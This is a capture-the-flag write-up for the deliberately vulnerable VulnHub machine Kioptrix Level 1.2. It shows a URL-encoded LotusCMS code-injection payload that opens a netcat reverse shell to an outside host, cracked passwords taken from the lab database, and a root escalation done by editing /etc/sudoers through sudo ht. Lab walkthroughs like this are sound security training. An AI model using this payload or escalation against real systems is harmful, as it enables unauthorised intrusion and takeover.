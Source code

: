 # Kioptrix: Level 1.2 

- [Tools](#tools)
- [Gaining Access](#gaining-access)
- [Priviledge Escalation](#priviledge-escalation)

Machine: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

## Tools
1. [NMap](https://NMap.org)
2. dirb
3. Netcat

## Gaining Access
1. Got IP with netdiscover, in my case IP is 192.168.0.13. At first as usual scanned with nmap.
2. Running dirb gives us some links.
3. If we open the ip there is a website. 
4. If we click on login, we can get login panel powered by LotusCMS.
5. If we google `LotusCMS RCE exploit`. We can find many exploits to get RCE. So, I studied the exploit and crafted a payload for reverse shell. Opening the crafted link gives reverse shell. `http://192.168.0.13/index.php?page=index%27)%3B%24{system(%27nc+-e+%2Fbin%2Fsh+<ip address>+<port number>%27)}%3B%23` while listening on netcat if we open that link we will get a reverse shell.

## Priviledge Escalation
1. After some searching, I got some credentials inside `/home/www/kioptrix3.com/gallery/gconfig.php`.
2. We can use this credential on a previously found link using dirb `http://192.168.0.13/phpmyadmin/`. 
3. After logging in we get two username and hash inside database.
4. So, if we decrypt those hash using crackstation, we get password of `dreg` is `Mast3r` and pasword of `loneferret` is `starwars`.
5. We can get ssh using those credentials. As dreg I got nothing important. So, I tried `loneferret` and `sudo` is enabled there and got some `sudo binary`.
6. `su` is not exploitable as user `loneferret`, so I tried to exploit `ht` and to exploit `ht` I need to `export TERM=xterm`.
7. Now I found this article https://vk9-sec.com/ht-privilege-escalation/ and followed these simple steps to root. So, at first I opened `sudo ht` and then pressed `F3` to select `/etc/sudoers` to open.
8. Now added `/bin/bash` to sudoers as instructed in the article and saved the file with `F2` and quit with `F10` or `CTRL+C`.
9. Now just use `sudo /bin/bash` to get root shell.
10. Now we can find a file `Congrats.txt` inside `/root` directory and this is the flag file containing a big paragraph.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
